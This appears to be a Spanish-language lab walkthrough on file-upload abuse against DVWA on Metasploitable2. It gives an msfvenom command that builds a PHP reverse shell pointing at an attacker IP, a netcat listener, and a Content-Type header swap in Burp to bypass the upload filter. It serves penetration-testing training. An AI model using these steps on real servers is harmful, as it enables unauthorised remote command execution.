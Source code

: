 # File Upload Abuse Parte 1

Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de Netcat. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  
Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.  

---

# File Upload Abuse Parte 2
Cambiar la seguridad del sitio a Medium y reintentar el ataque anterior. El servidor no va a dejar subir el archivo por el tipo de archivo que es.  
Para burlar esto, interceptar el request con Burp y seguidamente alterar el paquete de la siguiente forma:  

En la línea donde dice:
`Content-Type: application/x-php`  
Cambiar el header a:
`Content-Type: image/jpeg`  

De esta forma el sevidor piensa que está recibiendo un archivo de imagen.
